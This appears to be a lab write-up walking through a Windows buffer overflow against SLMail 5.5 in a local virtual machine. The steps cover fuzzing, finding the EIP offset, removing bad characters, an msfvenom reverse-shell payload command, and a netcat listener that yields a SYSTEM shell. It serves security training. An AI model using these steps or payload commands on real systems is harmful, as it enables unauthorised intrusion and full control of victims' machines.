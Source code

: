 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real-time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Opened BOF machine, accessed command prompt as admin, ran **“slmgr /rearm”** and **“ipconfig”**. Identified IP as **“10.0.2.10”**.

<p align="center">
  <img src="" alt="">
</p>

- Installed **“12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”**, rebooted VM, and created a shortcut for **“SLmail.cpl”**.

<p align="center">
  <img src="" alt="">
</p>

- Launched **“SLmail.cpl”** & **“Immunity debugger”** as admin.

<p align="center">
  <img src="" alt="">
</p>

- In “Immunity debugger”, attached the **“SLmail.exe”** file and ensure its active state.

<p align="center">
  <img src="" alt="">
</p>

- On my Kali machine, downloaded the **“fuzzerScript.py”** to the BOF folder on the desktop.

<p align="center">
  <img src="" alt="">
</p>

- In the same directory, created and edited **“fuzzy.py”**, updating the target IP address on line 13.

<p align="center">
  <img src="" alt="">
</p>

- Performed an nmap scan on the target VM. Identified Port 100 open with “pop3” protocol.

<p align="center">
  <img src="" alt="">
</p>

- Updated the **“fuzzy.py”** with the target IP and port.

<p align="center">
  <img src="" alt="">
</p>

- In the BOF directory, executed the script using “python2 fuzzy.py”.

<p align="center">
  <img src="" alt="">
</p>

- In Immunity debugger, noticed EIP showing **“41414141”**.

<p align="center">
  <img src="" alt="">
</p>

- Generated an MSF pattern using **“msf-pattern_create -l 3000”**, producing a unique 3000-byte pattern to identify program control flow.

<p align="center">
  <img src="" alt="">
</p>

- Copied this pattern into the **“fuzzy.py”** script buffer, removing the unnecessary counter and loop.

<p align="center">
  <img src="" alt="">
</p>

- Reset both SLmail.cpl and Immunity debugger. Ensured SLmail was active in Immunity, then ran **“python2 fuzzy.py”** from Kali.

<p align="center">
  <img src="" alt="">
</p>

- Observed EIP in Immunity debugger updated to **“39694438”**.

<p align="center">
  <img src="" alt="">
</p>

- Determined memory control location using **“msf-pattern_offset -l 3000 -q 39694438”**, identifying offset **“2606”**.

<p align="center">
  <img src="" alt="">
</p>

- Validated this by modifying **“fuzzy.py”** buffer to **“A * 2606 + B * 4”**.

<p align="center">
  <img src="" alt="">
</p>

- Reset SLmail.cpl and Immunity debugger, then executed **“python2 fuzzy.py”**. Noticed EIP as **“42424242”** and EBP as **“41414141”** in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>

- Updated **“fuzzy.py”** to include bad characters, and modified the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>

- Restarted slmail.clp and Immunity debugger. Ran **“python fuzzy.py”** from Kali, noting an output of 2865 bytes.

<p align="center">
  <img src="" alt="">
</p>

- Followed ESP in Immunity debugger's dump, identifying sequences to be removed from **“fuzzy.py”**.

<p align="center">
  <img src="" alt="">
</p>

- Repeated the process with updated **“fuzzy.py”**, observing a byte decrease in output.

<p align="center">
  <img src="" alt="">
</p>

- Made another update to **“fuzzy.py”**, removing the identified bad character.

<p align="center">
  <img src="" alt="">
</p>

- Reset tools, searched for mona modules in Immunity debugger, then searched for the appropriate DLL.

<p align="center">
  <img src="" alt="">
</p>

- Crafted shellcode with **“msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”**.

<p align="center">
  <img src="" alt="">
</p>

- Updated “fuzzy.py” with the crafted shell code.

<p align="center">
  <img src="" alt="">
</p>

- Set up a listener on Kali with **“nc -lvp 4444”**.



- Restarted SLmail, ran **“fuzzy.py”**. The netcat listener received the code, granting system access. Confirmed with **“whoami”** command showing “nt authority\system”.
